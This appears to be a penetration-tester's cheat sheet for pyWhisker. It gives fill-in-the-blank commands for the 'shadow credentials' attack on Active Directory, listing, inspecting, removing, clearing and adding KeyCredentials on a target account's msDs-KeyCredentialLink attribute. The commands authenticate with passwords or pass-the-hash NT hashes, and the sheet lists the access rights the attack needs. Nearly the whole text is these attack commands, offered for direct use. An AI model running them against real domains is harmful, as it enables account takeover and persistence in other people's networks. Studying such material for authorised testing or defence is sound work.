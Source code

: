 # pyWhisker

% dacl, shadow credentials, msDs-KeyCredentialLink
#plateform/linux #target/remote #cat/RECON 

## requierements
```
GenericAll, GenericWrite, WriteProperty or Validated-SPN 
DC must have its own certificate and keys (RB-ERROR (16) : KDC_ERR_PADATA_TYPE_NOSUPP)
```

## list all current KeyCredentials ID and creation time (cred)
https://github.com/ShutdownRepo/pywhisker

```
pywhisker.py --dc-ip <dc_ip> -d <domain> -u <user> -p <password> --target <target_user> --action "list"
```


## list all current KeyCredentials ID and creation time (pth)
https://github.com/ShutdownRepo/pywhisker

```
pywhisker.py --dc-ip <dc_ip> -d <domain> -u <user> -H <nt_hash> --target <target_user> --action "list"
```


## get info on KeyCredential (pth)
https://github.com/ShutdownRepo/pywhisker

```
pywhisker.py --dc-ip <dc_ip> -d <domain> -u <user> -H <nt_hash> --target <target_user> --action "info" --device-id=<device_id>
```


## remove KeyCredential (pth)
#cat/ATTACK/DACL-ABUSE
https://github.com/ShutdownRepo/pywhisker

```
pywhisker.py --dc-ip <dc_ip> -d <domain> -u <user> -H <nt_hash> --target <target_user> --action "remove" --device-id=<device_id>
```

## clear KeyCredential (pth)
#cat/ATTACK/DACL-ABUSE
https://github.com/ShutdownRepo/pywhisker

```
pywhisker.py --dc-ip <dc_ip> -d <domain> -u <user> -H <nt_hash> --target <target_user> --action "clear" 
```

## add KeyCredential (pth)
#cat/ATTACK/DACL-ABUSE
https://github.com/ShutdownRepo/pywhisker

```
pywhisker.py --dc-ip <dc_ip> -d <domain> -u <user> -H <nt_hash> --target <target_user> --action "add"  -f <pfx_file> -P <pfx_password|jubeaz>
```



